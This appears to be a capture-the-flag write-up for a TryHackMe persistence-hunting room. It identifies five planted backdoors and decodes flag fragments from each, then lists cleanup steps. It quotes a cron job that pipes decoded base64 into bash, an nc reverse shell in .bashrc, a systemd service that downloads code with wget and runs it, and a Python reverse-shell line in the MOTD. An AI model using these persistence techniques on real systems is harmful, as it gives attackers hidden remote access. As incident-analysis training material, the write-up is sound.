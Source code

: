 # THM-Hide_and_seek

## Summary

The adversary left behind a taunting note hinting at multiple persistence mechanisms planted across the system. Each mechanism contained a clue forming part of a final flag. The goal was to identify all persistence methods and piece together the flag.

**Final Flag:** `THM{[REDACTED]}`

---

## Persistence Mechanisms & Clue Extraction

### 1. Cron Job - "Time is on my side..."

**Path:** `/etc/crontab`

```bash
* * * * * /bin/bash -c 'echo [REDACTED_BASE64] | base64 -d | bash 2>/dev/null'
```

**Decoded base64 (redacted):** `[REDACTED]`

**Decoded subdomain (hex):**

```bash
echo [REDACTED_HEX] | xxd -r -p  # [REDACTED_FLAG_PART_1]
```

**Clue 1:** `[REDACTED_FLAG_PART_1]`

---

### 2. SSH Backdoor - "A secret handshake..."

**Path:** `/home/zeroday/.ssh/.authorized_keys`

Contained an ECDSA key with a suspicious hex comment:

```
[REDACTED_HEX_COMMENT]
```

**Decoded comment (hex):**

```bash
echo [REDACTED_HEX] | xxd -r -p  # [REDACTED_FLAG_PART_2]
```

**Clue 2:** `[REDACTED_FLAG_PART_2]`

---

### 3. .bashrc Reverse Shell - "Whenever you set the stage..."

**Path:** `/home/*/.bashrc`

```bash
nc -e /bin/bash [REDACTED_HEX].cipher.io 443 2>/dev/null
```

**Decoded subdomain (hex):**

```bash
echo [REDACTED_HEX] | xxd -r -p  # [REDACTED_BASE64]
```

**Base64 decode:**

```bash
echo [REDACTED_BASE64] | base64 -d  # [REDACTED_FLAG_PART_3]
```

**Clue 3:** `[REDACTED_FLAG_PART_3]`

---

### 4. Systemd Service - "I run with the big dogs..."

**Path:** `/usr/lib/systemd/system/cipher.service`

```ini
[Service]
ExecStart=/bin/bash -c 'wget [REDACTED_BASE64].s1mpl3bd.com --output - | bash 2>/dev/null'
```

**Decoded payload (base64):**

```bash
echo [REDACTED_BASE64] | base64 -d  # [REDACTED_FLAG_PART_4]
```

**Clue 4:** `[REDACTED_FLAG_PART_4]`

---

### 5. MOTD Reverse Shell - "I love welcome messages."

**Path:** `/etc/update-motd.d/00-header`

Embedded Python reverse shell:

```python
s.connect(("[REDACTED_HEX].h1dd3nd00r.n3t",));
```

**Decoded hex:**

```bash
echo [REDACTED_HEX] | xxd -r -p  # [REDACTED_FLAG_PART_5]
```

**Clue 5:** `[REDACTED_FLAG_PART_5]`

---

## Final Flag Assembly

Combining all parts:

* `[REDACTED_FLAG_PART_1]`
* `[REDACTED_FLAG_PART_2]`
* `[REDACTED_FLAG_PART_3]`
* `[REDACTED_FLAG_PART_4]`
* `[REDACTED_FLAG_PART_5]`

**✅ Final Flag:** `THM{[REDACTED]}`

---

## Cleanup Recommendations

1. Remove malicious cron jobs (`sudo crontab -e`)
2. Delete rogue `.authorized_keys` and suspicious users
3. Restore `.bashrc` to a safe state
4. Disable and remove `cipher.service`:

   ```bash
   sudo systemctl disable cipher.service
   sudo rm /usr/lib/systemd/system/cipher.service
   ```
5. Sanitize `/etc/update-motd.d/00-header`

---
